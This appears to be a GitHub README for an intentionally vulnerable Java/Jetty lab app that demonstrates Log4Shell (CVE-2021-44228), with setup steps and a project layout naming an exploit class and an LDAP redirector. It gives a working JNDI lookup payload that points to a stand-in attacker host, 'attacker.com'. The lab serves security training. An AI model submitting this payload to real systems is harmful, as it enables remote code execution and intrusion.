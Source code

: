 # CVE-2021-44228 Log4jShell WebApp

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- LDAP-server voor JNDI-exploits
- Simple HTML form
- Java exploit payload ('Exploit.class')

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25
```

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Exploit/
    └── Exploit.java/class
├── ldap/
    └── LDAP-SERVER (JNDI redirector)
├── webapp/
    └── Kwetbare webapp (Jetty + log4j)
└── libs/
    └── Dependencies (via setup.sh)
├── scripts/
    ├── run_exploits.sh
    └── setup.sh
├── README.md
└── test_payload.txt # Payload voor formulierinvoer

```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.
